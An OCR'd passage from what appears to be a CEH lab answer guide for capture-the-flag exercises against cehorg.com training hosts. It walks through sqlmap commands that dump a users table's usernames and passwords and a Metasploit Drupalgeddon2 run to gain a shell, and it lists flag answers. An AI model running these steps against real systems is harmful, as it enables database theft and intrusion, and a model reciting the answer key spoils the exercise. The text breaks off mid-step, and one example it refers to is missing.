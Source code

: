 sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users --columns
Dump the data from the relevant columns (e.g., username , password ):
sqlmap -u "http://cinema.cehorg.com/search.php?q=test" --cookie="PHPSESSID=your_
session_id" -D database_name -T users -C username,password --dump
Assuming sqlmap successfully extracts the data, the output might look like this:
Database: cinema
Table: users
[2 entries]
+---------+-------------+
| username | password |
+---------+-------------+
| Daniel | qwertyuiop |
| Karen | computer |
+---------+-------------+
-------------------------------------------------------------------------------------------------------
14. Explore the web application at www.cehorg.com and enter the flag's value on
the page with page_id=95. (Format: A**NNAA)
Answer: E^%89RU
Solution:
1. Open the URL:
http://www.cehorg.com/index.php?page_id=95
2. View Page Source:
Right-click on the page and select "View Page Source".
3. Search for the Flag:
Press Ctrl+F (or Cmd+F on Mac) to open the find function.
Type flag or directly search for the pattern A**NNAA .
As an example, you might find a comment like this in the source code:

-------------------------------------------------------------------------------------------------------
15. Perform vulnerability research and exploit the web application
training.cehorg.com, available at 10.10.55.50. Locate the Flag.txt file and enter its content as
the answer. (Format: AaaNNN)
Answer: Qui957
Solution:
Step 1: Verify the Target
1. Open your Web Browser:
Navigate to http://10.10.55.50 to verify the target is running a Drupal site.
Step 2: Use Metasploit to Exploit the Vulnerability
1. Launch Metasploit:
Open a terminal and start Metasploit Framework by running:
msfconsole
2. Search for the Drupalgeddon2 Exploit:
In the Metasploit console, search for the Drupalgeddon2 module:
search drupalgeddon2
3. Select the Exploit Module:
Use the appropriate module from the search results:
use exploit/unix/webapp/drupal_drupalgeddon2
4. Set the Target and Options:
Set the RHOST to the target IP and any other necessary options:
set RHOST 10.10.55.50
set RPORT 80 # Ensure the port is correct for HTTP
5. Run the Exploit:
Execute the exploit:
run
Step 3: Gain a Shell and Locate the Flag
1. Obtain a Shell:
If the exploit is successful, you will get a shell on the target machine.
2. Navigate the File System:
Use basic Linux commands to navigate and locate the Flag.txt file. Common locations to check are the